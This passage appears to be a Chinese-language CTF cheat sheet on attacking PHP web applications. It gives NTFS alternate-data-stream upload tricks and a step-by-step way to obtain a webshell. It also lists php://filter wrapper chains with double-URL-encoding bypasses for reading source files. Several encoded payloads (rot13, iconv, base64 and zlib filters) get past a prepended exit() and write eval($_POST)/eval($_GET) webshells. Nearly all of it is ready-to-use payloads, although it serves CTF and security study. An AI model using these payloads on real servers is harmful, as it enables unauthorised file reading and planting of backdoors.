 test.php::$DATA| 生成test.php|`<?php phpinfo();?>`
test.php::$INDEX_ALLOCATION|生成test.php文件夹|
test.php::$DATA.jpg|生成0.jpg|`<?php phpinfo();?>`
test.php::$DATA\aaa.jpg|生成aaa.jpg|`<?php phpinfo();?> `

利用步骤：
1. 先上传shell.php:.jpg，得到空的shell.php
2. 再上传shell.<<<，会覆盖原来的shell.php
3. 即可得到webshell

[php一句话绕过技术分析](https://xz.aliyun.com/t/3924#toc-9)
[PHP LFI 利用临时文件 Getshell 姿势 ](https://www.anquanke.com/post/id/201136)

require和取反运算符之间不需要空格照样执行，即`<?=require~%d0%99%93%9e%98?>`

#### PHP伪协议
php遇到不认识的协议就会当目录处理
`url=a://ctfshow.com/../../../../../../../fl0g.txt`
**php://filter**
`?filename=php://filter/convert.base64-encode/resource=xxx.php`
`?filename=php://filter/read=convert.base64-encode/resource=xxx.php` 一样。
条件：只是读取，需要开启 allow_url_fopen，不需要开启 allow_url_include；

```
php://filter/convert.%6%32ase64-encode/resource=flag.php
php://filter/resource=flag.php
compress.zlib://flag.php
php://filter/read=string.rot13/resource=flag.php
php://filter/convert.iconv.utf-8.utf-7/resource=flag.php
php://filter/read=convert.quoted-printable-encode/resource=flag.php
php://filter/zlib.deflate/resource=flag.php (本地再 zlib.inflate 解压就可以读到了)
php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php
```
file_put_contents中可以调用伪协议，而伪协议处理时会对过滤器urldecode一次，所以是可以利用二次编码绕过的

>a: %6%31
b: %6%32
i: %6%39
q: %7%31
r: %7%32
u: %7%35
U: %5%35

`file_put_contents($content,"<?php exit();".$content);`情况下写文件绕过死亡函数exit
```
php://filter/write=string.%7%32ot13|<?cuc riny($_CBFG[ozgu]);?>|/resource=bmth.php
php://filter/convert.%6%39conv.%5%35CS-2LE.%5%35CS-2BE|?<hp pe@av(l_$OPTSb[tm]h;)>?/resource=bmth.php
php://filter/convert.%6%39conv.%5%35CS-4LE.%5%35CS-4BE|aahp?<e@ p(lavOP_$b[TS]htm>?;)/resource=bmth.php
php://filter/write=PD9waHAgQGV2YWwoJF9QT1NUWydibXRoJ10pOz8+|convert.%6%39conv.%5%35tf-8.%5%35tf-7|convert.%6%32ase64-decode/resource=bmth.php
php://filter/write=convert.%6%39conv.%5%35CS-2LE.%5%35CS-2BE|string.%7%32ot13|a?%3Cuc%20cr@ni(y_$BCGFo[gz]u;)%3E?/resource=bmth.php
php://filter/zlib.deflate|string.tolower|zlib.inflate|?><?php%0Deval($_GET[1]);?>/resource=bmth.php
```
[file_put_content和死亡·杂糅代码之缘](https://xz.aliyun.com/t/8163)
[探索php://filter在实战当中的奇技淫巧](https://www.anquanke.com/post/id/202510)
[可用过滤器列表](https://www.php.net/manual/zh/filters.php)
